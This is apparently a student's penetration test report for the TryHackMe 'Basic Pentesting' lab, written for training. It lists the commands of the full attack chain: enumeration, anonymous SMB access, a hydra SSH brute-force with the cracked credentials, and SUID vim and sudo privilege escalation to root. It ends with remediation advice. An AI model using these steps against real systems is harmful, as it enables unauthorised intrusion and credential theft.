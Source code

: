 # Offensive Security

## Penetration Test Report

**Student Name:** Sanin  
**Date:** *(Add today's date here)*

---

## Table of Contents
1. [Objective](#1-objective)  
2. [Methodology](#2-methodology)  
3. [Executive Summary](#3-executive-summary)  
4. [Detailed Findings](#4-detailed-findings)  
   - [Initial Reconnaissance](#initial-reconnaissance)  
   - [Web Enumeration](#web-enumeration)  
   - [SMB Enumeration](#smb-enumeration)  
   - [Brute-force and SSH Access](#brute-force-and-ssh-access)  
   - [Privilege Escalation](#privilege-escalation)  
   - [Flags](#flags)  
5. [Screenshots](#5-screenshots)  
6. [Recommendations](#6-recommendations)  
7. [Conclusion](#7-conclusion)

---

## 1. Objective
The purpose of this penetration test is to evaluate the security posture of the target machine **Basic Pentesting** (`10.10.21.109`) using a gray box testing methodology. The test was performed by Sanin on a TryHackMe lab environment. The goal is to identify, exploit, and document any security vulnerabilities found.

---

## 2. Methodology
The assessment followed a typical gray box penetration testing methodology, including the following steps:

1. Reconnaissance and Enumeration  
2. Vulnerability Identification  
3. Exploitation  
4. Privilege Escalation  
5. Post Exploitation  
6. Reporting

**Tools Used:**
- nmap
- gobuster
- smbclient
- hydra
- ssh
- vim

---

## 3. Executive Summary
The target machine was compromised using a combination of poor configurations, weak passwords, and exposed services. The following issues were identified:

- Weak SSH credentials for a valid user
- Insecure SMB share accessible anonymously
- Exposed backup file containing plaintext password
- Privilege escalation via SUID-enabled `vim`

Full root access was achieved during the engagement.

---

## 4. Detailed Findings

### Initial Reconnaissance
**Command Used:**
```
nmap -sC -sV -oN nmap.txt 10.10.21.109
```

**Open Ports:**
- 22 (SSH)
- 80 (HTTP)
- 139, 445 (SMB)
- 8009, 8080 (Apache Tomcat)

> *[Screenshot Placeholder]*

### Web Enumeration
**Command Used:**
```
gobuster dir -u http://10.10.21.109/ -w /usr/share/wordlists/dirb/common.txt
```

**Directories Found:**
- `/development`
- `/index.html`

**Interesting Files:**
- `dev.txt`
- `j.txt`

> *[Screenshot Placeholder]*

### SMB Enumeration
**Commands Used:**
```
smbclient -L //10.10.21.109
smbclient //10.10.21.109/Anonymous
```

**Share Accessed:** `Anonymous` (No credentials required)

> *[Screenshot Placeholder]*

### Brute-force and SSH Access
**Command Used:**
```
hydra -l jan -P passlist 10.10.21.109 ssh
```

**Credentials Found:**
- Username: `jan`
- Password: `armando`

**SSH Access:**
```
ssh jan@10.10.21.109
```

User `jan` is **not** in the sudoers group.

> *[Screenshot Placeholder]*

### Privilege Escalation
**SUID Binary Check:**
```
find / -perm -4000 2>/dev/null
```

**Used SUID `vim` to read another user's files**
- Discovered user `kay`
- Found file: `/home/kay/pass.bak`
- Read password using: `vim pass.bak`

**Kay's Password:**
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

**Switched User:**
```
su kay
```

**Checked sudo permissions:**
```
sudo -l
```

**Output:** User `kay` can run ALL commands

**Privilege Escalation:**
```
sudo su
```


---

## 6. Recommendations
- Remove or restrict SUID permission from unnecessary binaries like `vim`.
- Enforce strong password policies and lockout mechanisms.
- Avoid storing plaintext passwords in user directories.
- Limit `sudo` privileges to only necessary users and commands.
- Properly secure and limit access to shared SMB folders.

---

## 7. Conclusion
The target machine was successfully compromised using multiple known attack vectors. The security flaws identified—such as weak passwords, poor access control, and exposed sensitive files—should be addressed immediately to prevent real-world attacks.

---

*Report prepared by Sanin for cybersecurity training and interview assessment purposes.*
